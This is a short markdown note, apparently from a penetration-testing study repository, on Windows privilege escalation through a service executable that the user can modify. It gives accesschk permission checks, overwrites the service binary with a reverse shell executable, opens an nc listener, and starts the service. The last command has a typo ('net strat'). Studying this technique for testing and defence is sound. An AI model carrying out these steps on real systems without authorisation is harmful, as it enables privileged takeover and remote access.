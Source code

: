 - - -
If the original service executable is modifiable by our user
we can simply replace it with our reverse shell executable.
always remember if you're exploiting this in a real system you should make
a backup of the original executable and restore it after you are done.
- - -

## Verifying :

**<u>Can we modify it ??</u>** .

```powershell
 .\accesschk.exe /accepteula -quvw "C:\Program Files\Files Permissions Service\filepermservice.exe"
```

**<u>Do we have permissions to start the service ??</u>** .

```powershell
 .\accesschk.exe /accepteula -ucqv user <service_name>
```

**<u>Make a backup of original executable</u>**.

```powershell
 copy "C:\Program Files\Files Permissions Service\filepermservice.exe" C:\Temp
```

**<u>Now replace it with our reverse shell</u>**.

```powershell
copy /Y C:\Temp\reverse.exe "C:\Program Files\Files Permissions Service\filepermservice.exe"
```

```sh
nc -nvlp 9090
```

```powershell
net strat filepermsvc
```
<br> 

- - -